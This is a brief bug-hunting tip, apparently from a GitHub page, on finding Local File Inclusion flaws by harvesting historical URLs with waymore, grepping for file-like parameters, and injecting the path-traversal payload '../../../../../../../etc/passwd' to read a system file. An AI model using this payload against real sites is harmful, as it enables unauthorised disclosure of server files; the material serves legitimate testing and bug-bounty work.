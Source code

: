 LFI (Local File Inclusion)
---

1. Fetch historical urls through waymore
cat domains.txt | waymore -mode U -oU ~/waymore.txt

2. grep keywords like filename , file , path= , cat= , pdf=

Inject payload ../../../../../../../etc/passwd

**Credited to Toshit Barthi**

---

